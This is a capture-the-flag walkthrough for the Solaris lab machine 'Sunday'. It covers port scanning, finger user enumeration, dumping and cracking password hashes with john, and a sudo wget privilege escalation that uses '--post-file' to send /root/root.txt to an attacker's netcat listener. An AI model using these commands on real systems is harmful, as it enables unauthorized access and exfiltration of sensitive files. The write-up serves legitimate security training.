

---
search:
  exclude: true
---
# Sunday Writeup

## Introduction :

Sunday is an easy Solaris box that was released back in April 2018.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      **λ nihilist [ 10.10.14.48/23 ] [~] → nmap -sC -sV -Pn 10.10.10.76**
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-18 05:36 CET
      Stats: 0:01:57 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
      NSE Timing: About 75.00% done; ETC: 05:38 (0:00:00 remaining)
      Nmap scan report for 10.10.10.76
      Host is up (0.037s latency).
      Not shown: 991 closed ports
      PORT      STATE    SERVICE      VERSION
      **79/tcp    open     finger       Sun Solaris fingerd
      |_finger: No one logged on\x0D**
      111/tcp   open     rpcbind
      765/tcp   filtered webster
      1839/tcp  filtered netopia-vo1
      1998/tcp  filtered x25-svc-port
      2910/tcp  filtered tdaccess
      9011/tcp  filtered d-star
      16018/tcp filtered unknown
      54045/tcp filtered unknown
      Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 117.78 seconds
    

Seems like we have alot of ports to work with.  let's run another nmap scan, but this time to enumerate all the 65535 ports.
    
    
      **λ nihilist [ 10.10.14.48/23 ] [~] → nmap -T4 -A -v -p- 10.10.10.76**
    Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-18 05:37 CET
    NSE: Loaded 151 scripts for scanning.
    NSE: Script Pre-scanning.
    Initiating NSE at 05:37
    Completed NSE at 05:37, 0.00s elapsed
    Initiating NSE at 05:37
    Completed NSE at 05:37, 0.00s elapsed
    Initiating NSE at 05:37
    Completed NSE at 05:37, 0.00s elapsed
    Initiating Ping Scan at 05:37
    Scanning 10.10.10.76 [2 ports]
    Completed Ping Scan at 05:37, 0.03s elapsed (1 total hosts)
    Initiating Parallel DNS resolution of 1 host. at 05:37
    Completed Parallel DNS resolution of 1 host. at 05:37, 0.01s elapsed
    Initiating Connect Scan at 05:37
    Scanning 10.10.10.76 [65535 ports]
    Discovered open port 111/tcp on 10.10.10.76
    Increasing send delay for 10.10.10.76 from 0 to 5 due to 197 out of 492 dropped probes since last increase.
    Increasing send delay for 10.10.10.76 from 5 to 10 due to max_successful_tryno increase to 5
    Warning: 10.10.10.76 giving up on port because retransmission cap hit (6).
    Connect Scan Timing: About 1.74% done; ETC: 06:07 (0:29:08 remaining)
    Connect Scan Timing: About 3.72% done; ETC: 06:05 (0:26:17 remaining)
    Connect Scan Timing: About 8.36% done; ETC: 06:04 (0:24:51 remaining)
    Connect Scan Timing: About 12.54% done; ETC: 06:04 (0:23:29 remaining)
    Connect Scan Timing: About 17.15% done; ETC: 06:04 (0:22:04 remaining)
    Connect Scan Timing: About 21.93% done; ETC: 06:04 (0:20:43 remaining)
    Connect Scan Timing: About 27.43% done; ETC: 06:04 (0:19:21 remaining)
    Connect Scan Timing: About 32.63% done; ETC: 06:04 (0:18:00 remaining)
    Connect Scan Timing: About 37.81% done; ETC: 06:04 (0:16:38 remaining)
    **Discovered open port 22022/tcp on 10.10.10.76
    Discovered open port 33890/tcp on 10.10.10.76**
    Connect Scan Timing: About 43.04% done; ETC: 06:04 (0:15:15 remaining)
    Connect Scan Timing: About 48.19% done; ETC: 06:04 (0:13:53 remaining)
    Connect Scan Timing: About 53.48% done; ETC: 06:04 (0:12:33 remaining)
    

We have found the 22022nd and 33890th port, let's run yet another scan on these two ports to discover what service they are hosting. 
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → nmap -sC -sV 10.10.10.76 -p 22022,33890
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-20 09:15 CET
      Nmap scan report for 10.10.10.76
      Host is up (0.085s latency).
    
      PORT      STATE  SERVICE VERSION
      **22022/tcp open   ssh     SunSSH 1.3 (protocol 2.0)**
      33890/tcp closed unknown
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 35.14 seconds
    

Seems like we have a SSH port to work with ! it is running the SunSSH 1.3 protocol.   
we will also be looking at the 79th port : fingerd Solaris.

## **Part 2 : Getting User Access**

Let's see what we can do with the 79th port that is running fingerd Solaris.  We will be running the finger enumeration script by pentestmonkey : http://pentestmonkey.net/tools/user-enumeration/finger-user-enum
    
    
      λ root [ 10.10.14.48/23 ] [_HTB/Sunday/finger-user-enum-1.0] →  perl finger-user-enum.pl -U rockyou.txt -t 10.10.10.76
    
      ######## Scan started at Wed Nov 20 09:58:10 2019 #########
      **sammy** @10.10.10.76: sammy pts/2 10.10.14.48
      **sunny** @10.10.10.76: sunny pts/3 10.10.14.48
    

We now have 2 users to work with ! sammy and sunny
    
    
      λ root [ 10.10.14.48/23 ] [_HTB/Sunday/finger-user-enum-1.0] → **ssh sunny@10.10.10.76 -p 22022**
    Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,**diffie-hellman-group1-sha1**
    

We need to allow a ssh key algorithm exchange method to the 10.10.10.76 host into our ~/.ssh/config file. 
    
    
      λ root [ 10.10.14.48/23 ] [_HTB/Sunday/finger-user-enum-1.0] → echo "**Host 10.10.10.76** " >> ~/.ssh/config
    
    λ root [ 10.10.14.48/23 ] [_HTB/Sunday/finger-user-enum-1.0] → echo "**KexAlgorithms +diffie-hellman-group1-sha1** " >> ~/.ssh/config
    
    λ root [ 10.10.14.48/23 ] [_HTB/Sunday/finger-user-enum-1.0] → **ssh sunny@10.10.10.76 -p 22022**
    The authenticity of host '[10.10.10.76]:22022 ([10.10.10.76]:22022)' cant be established.
    RSA key fingerprint is SHA256:TmRO9yKIj8Rr/KJIZFXEVswWZB/hic/jAHr78xGp+YU.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '[10.10.10.76]:22022' (RSA) to the list of known hosts.
    Password:
    Last login: Tue Apr 24 10:48:11 2018 from 10.10.14.4
    Sun Microsystems Inc.   **SunOS 5.11**      snv_111b        November 2008
    

We see that the box is running SunOS 5.11, which is preety old, now we know why we needed to enable the old ssh algorithms for the client.
    
    
    sunny@sunday:~$ cat /
    cat: /: Is a directory
    sunny@sunday:~$ CLEAR
    -bash: CLEAR: command not found
    sunny@sunday:~$
    sunny@sunday:~$ cat /home/sunny/user.txt
    

Here we see that the box is awfully slow and unresponsive. 
    
    
    sunny@sunday:~/Desktop$ cd /export/home/sammy
    sunny@sunday:/export/home/sammy$ ls
    Desktop  Documents  Downloads  Public
    sunny@sunday:/export/home/sammy$ cd Desktop
    sunny@sunday:/export/home/sammy/Desktop$ ls
    user.txt
    sunny@sunday:/export/home/sammy/Desktop$ cat user.txt
    cat: user.txt: Permission denied
    

Navigating to /export/home/sammy/desktop we see that we do not have permissions to read user.txt  Our next step is to try to print out /etc/passwd and /backup/shadow.backup
    
    
      **sunny@sunday:/export/home/sammy/Desktop$ cat user.txt**
      cat: user.txt: Permission denied
    
      **sunny@sunday:/export/home/sammy/Desktop$ cat /etc/passwd**
      root:x:0:0:Super-User:/root:/usr/bin/bash
      daemon:x:1:1::/:
      bin:x:2:2::/usr/bin:
      sys:x:3:3::/:
      adm:x:4:4:Admin:/var/adm:
      lp:x:71:8:Line Printer Admin:/usr/spool/lp:
      uucp:x:5:5:uucp Admin:/usr/lib/uucp:
      nuucp:x:9:9:uucp Admin:/var/spool/uucppublic:/usr/lib/uucp/uucico
      dladm:x:15:3:Datalink Admin:/:
      smmsp:x:25:25:SendMail Message Submission Program:/:
      listen:x:37:4:Network Admin:/usr/net/nls:
      gdm:x:50:50:GDM Reserved UID:/:
      zfssnap:x:51:12:ZFS Automatic Snapshots Reserved UID:/:/usr/bin/pfsh
      xvm:x:60:60:xVM User:/:
      mysql:x:70:70:MySQL Reserved UID:/:
      openldap:x:75:75:OpenLDAP User:/:
      webservd:x:80:80:WebServer Reserved UID:/:
      postgres:x:90:90:PostgreSQL Reserved UID:/:/usr/bin/pfksh
      svctag:x:95:12:Service Tag UID:/:
      nobody:x:60001:60001:NFS Anonymous Access User:/:
      noaccess:x:60002:60002:No Access User:/:
      nobody4:x:65534:65534:SunOS 4.x NFS Anonymous Access User:/:
      sammy:x:101:10:sammy:/export/home/sammy:/bin/bash
      sunny:x:65535:1:sunny:/export/home/sunny:/bin/bash
    
      **sunny@sunday:/export/home/sammy/Desktop$ cat /backup/shadow.backup**
      mysql:NP:::::::
      openldap:*LK*:::::::
      webservd:*LK*:::::::
      postgres:NP:::::::
      svctag:*LK*:6445::::::
      nobody:*LK*:6445::::::
      noaccess:*LK*:6445::::::
      nobody4:*LK*:6445::::::
      sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
      sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
    

Looking at the results we see that we have a few things to work with.  we will be running the unshadow command onto the combination of the passwd.txt and shadow.txt files.  First step is to save them locally, and we will run the command afterwards. 
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → cd _HTB
    
      λ nihilist [ 10.10.14.48/23 ] [~/_HTB] → cd Sunday
    
      λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Sunday] → nano passwd.txt
    
      λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Sunday] → nano shadow.backup
    
      λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Sunday] → ls
      finger-user-enum-1.0  passwd.txt  progress.graphml  shadow.backup
    
      **λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Sunday] → unshadow passwd.txt shadow.backup**
      Created directory: /home/nihilist/.john
      root:x:0:0:Super-User:/root:/usr/bin/bash
      daemon:x:1:1::/:
      bin:x:2:2::/usr/bin:
      sys:x:3:3::/:
      adm:x:4:4:Admin:/var/adm:
      lp:x:71:8:Line Printer Admin:/usr/spool/lp:
      uucp:x:5:5:uucp Admin:/usr/lib/uucp:
      nuucp:x:9:9:uucp Admin:/var/spool/uucppublic:/usr/lib/uucp/uucico
      dladm:x:15:3:Datalink Admin:/:
      smmsp:x:25:25:SendMail Message Submission Program:/:
      listen:x:37:4:Network Admin:/usr/net/nls:
      gdm:x:50:50:GDM Reserved UID:/:
      zfssnap:x:51:12:ZFS Automatic Snapshots Reserved UID:/:/usr/bin/pfsh
      xvm:x:60:60:xVM User:/:
      mysql:NP:70:70:MySQL Reserved UID:/:
      openldap:*LK*:75:75:OpenLDAP User:/:
      webservd:*LK*:80:80:WebServer Reserved UID:/:
      postgres:NP:90:90:PostgreSQL Reserved UID:/:/usr/bin/pfksh
      svctag:*LK*:95:12:Service Tag UID:/:
      nobody:*LK*:60001:60001:NFS Anonymous Access User:/:
      noaccess:*LK*:60002:60002:No Access User:/:
      nobody4:*LK*:65534:65534:SunOS 4.x NFS Anonymous Access User:/:
      sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:101:10:sammy:/export/home/sammy:/bin/bash
      sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:65535:1:sunny:/export/home/sunny:/bin/bash
    
      **λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Sunday] → unshadow passwd.txt shadow.backup > john_pwd.txt
    
      λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Sunday] →  john john_pwd.txt --wordlist='/usr/share/wordlists/rockyou.txt'**
    

We use the rockyou.txt wordlist in combination with the john command and we find the password "cooldude!" for the sammy user.  Using that we try to log in through SSH once more but this time as the sammy user.
    
    
      λ root [ 10.10.14.48/23 ] [_HTB/Sunday/finger-user-enum-1.0] → ssh sammy@10.10.10.76 -p 22022
    Password:
    Last login: Tue Apr 24 12:57:03 2018 from 10.10.14.4
    Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
    sammy@sunday:~$ ls
    Desktop  Documents  Downloads  Public
    sammy@sunday:~$ cd Desktop
    sammy@sunday:~/Desktop$ cat user.txt
    **a3XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX**
    
    

And we have been able to ssh as the sammy user ! We have finally been able to reveal the user flag. 

## **Part 3 : Getting Root Access**

First of all we run the sudo -l command to see what we can work with.
    
    
      sammy@sunday:~/Desktop$ sudo -l
      User sammy may run the following commands on this host:
          **(root) NOPASSWD: /usr/bin/wget**
    

Interesting ! We seem to be able to run the wget command as root without any password. Let's run the command netcat command on a second terminal , and we will attempt to print out the root flag using wget's --post-file flag.

_Terminal 2:_
    
    
      λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Sunday] → nc -lvnp **9001**
    

_Terminal 1:_
    
    
      sammy@sunday:~/Desktop$ **sudo wget --post-file=/root/root.txt 10.10.14.48:9001**
      --08:49:44--  http://10.10.14.48:9001/
                 => `index.html'
      Connecting to 10.10.14.48:9001... connected.
      HTTP request sent, awaiting response...
    

_Terminal 2:_
    
    
      λ nihilist [ 10.10.14.48/23 ] [~/_HTB/Sunday] → **nc -lvnp 9001**
    Connection from 10.10.10.76:48117
    POST / HTTP/1.0
    User-Agent: Wget/1.10.2
    Accept:
    Host: 10.10.14.48:9001
    Connection: Keep-Alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 33
    
    **fbXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX**
    

And that's it ! We have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

